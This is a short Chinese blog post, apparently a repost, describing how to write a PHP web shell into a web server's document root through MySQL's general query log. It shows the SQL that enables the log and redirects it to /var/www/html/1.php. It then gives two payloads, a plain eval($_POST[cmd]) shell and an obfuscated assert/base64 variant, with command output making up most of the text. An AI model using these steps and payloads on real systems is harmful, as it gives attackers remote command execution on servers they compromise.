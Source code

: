 ```yaml
---
title: "mysql的兼职技能"
date: 2017-03-28 22:02:11 +0800

categories: 转载验证
tags: [mysql, shell, 网络安全, 转载]
---
```

>必须在mysql 的**root**权限下

查看`general_log`状态

```sql
mysql> show variables like '%general%';
+------------------+----------------------------+
| Variable_name    | Value                      |
+------------------+----------------------------+
| general_log      | OFF                        |
| general_log_file | /var/lib/mysql/itaken.log |
+------------------+----------------------------+
2 rows in set (0.22 sec)

mysql>
```
开启mysql查询日志, 设置日志文件路径
>这里是存储了每一个sql语句执行的日志（包含SQL语句本身）

```sql
mysql> set global general_log = on;
Query OK, 0 rows affected (0.00 sec)

mysql> set global general_log_file = '/var/www/html/1.php';
Query OK, 0 rows affected (0.00 sec)

mysql> show variables like '%general%';
+------------------+---------------------+
| Variable_name    | Value               |
+------------------+---------------------+
| general_log      | ON                  |
| general_log_file | /var/www/html/1.php |
+------------------+---------------------+
2 rows in set (0.00 sec)

mysql>
```
>`1.php`文件如果不存在,则会创建,所以该目录必须有创建文件权限, 否则会报错
```sql
mysql> set global general_log_file = '/var/www/html/1.php';
ERROR 29 (HY000): File '/var/www/html/1.php' not found (Errcode: 13 - Permission denied)
```

执行sql查询, 记录到日志
```sql
mysql> select '<?php eval($_POST[cmd]);?>';
+----------------------------+
| <?php eval($_POST[cmd]);?> |
+----------------------------+
| <?php eval($_POST[cmd]);?> |
+----------------------------+
1 row in set (0.00 sec)

mysql> SELECT "<?php $p = array('f'=>'a','pffff'=>'s','e'=>'fffff','lfaaaa'=>'r','nnnnn'=>'t');$a = array_keys($p);$_=$p['pffff'].$p['pffff'].$a[2];$_= 'a'.$_.'rt';$_(base64_decode($_REQUEST['username']));?>";
+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| <?php $p = array('f'=>'a','pffff'=>'s','e'=>'fffff','lfaaaa'=>'r','nnnnn'=>'t');$a = array_keys($p);$_=$p['pffff'].$p['pffff'].$a[2];$_= 'a'.$_.'rt';$_(base64_decode($_REQUEST['username']));?> |
+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| <?php $p = array('f'=>'a','pffff'=>'s','e'=>'fffff','lfaaaa'=>'r','nnnnn'=>'t');$a = array_keys($p);$_=$p['pffff'].$p['pffff'].$a[2];$_= 'a'.$_.'rt';$_(base64_decode($_REQUEST['username']));?> |
+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
1 row in set (0.00 sec)

mysql>
```


>原文: [SQL语句利用日志写shell](https://evi1cg.me/archives/test1.html)

---
## 参考文档
- [mysql语句执行记录写一句话](http://www.sakill.com/?p=426)
- [The General Query Log](https://dev.mysql.com/doc/refman/5.7/en/query-log.html)
- [phpmyadmin新姿势getshell](http://blog.cora-lab.org/287.html)

